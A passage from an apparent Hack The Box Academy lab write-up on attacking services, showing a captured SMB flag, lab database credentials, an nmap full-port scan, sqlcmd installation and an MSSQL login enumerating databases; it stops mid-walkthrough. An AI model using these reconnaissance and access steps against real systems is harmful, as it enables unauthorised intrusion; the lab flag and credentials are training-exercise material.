 ```c
 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

0 updates can be applied immediately.


Last login: Tue Apr 19 21:50:46 2022 from 10.10.14.20
$ ls
flag.txt
$ cat flag.txt
HTB{SMB_4TT4CKS_2349872359}

```

### Attacking SQL Databases

Authenticate to 10.129.203.12 (ACADEMY-ATTCOMSVC-WIN-02) with user "htbdbuser" and password "MSSQLAccess01!"

7. What is the password for the "mssqlsvc" user?

First of all I ran nmap script:
```c
nmap -Pn -sV -sC -p- 10.10.10.125 --min-rate 3000 -n
```

Then I discovered that port 1433 was opened. And as we have creds to authenticate to DB I decided to use sqsh tool for that at first
I decided to install it, but had problems with no properly installed FreeTDS or Sybase environment found in /usr. So later I decided to use sqlcmd tool instead sqsh
I also needed to install it first:
```c
sudo apt update 
sudo apt install curl apt-transport-https
curl https://packages.microsoft.com/keys/microsoft.asc | sudo apt-key add -
echo "deb [arch=amd64] https://packages.microsoft.com/repos/ubuntu/ focal main" | sudo tee /etc/apt/sources.list.d/mssql-release.list
sudo apt update
sudo apt install mssql-tools
export PATH="$PATH:/opt/mssql-tools/bin"
source ~/.bashrc  # или source ~/.zshrc, если вы используете Zsh
sqlcmd -?
```

Insert the above commands one by one to install sqlcmd
Then as we successfully installed it, we can now connect to DB:
```c
sqlcmd -S 10.129.68.230 -U htbdbuser
Password: 
1> show databases;
2> go
Msg 2812, Level 16, State 62, Server WIN-02\SQLEXPRESS, Line 1
Could not find stored procedure 'show'.
1> SELECT name FROM master.dbo.sysdatabases
2> go
name                                                                                                                            
--------------------------------------------------------------------------------------------------------------------------------
master                                                                                                                          
tempdb                                                                                                                          
```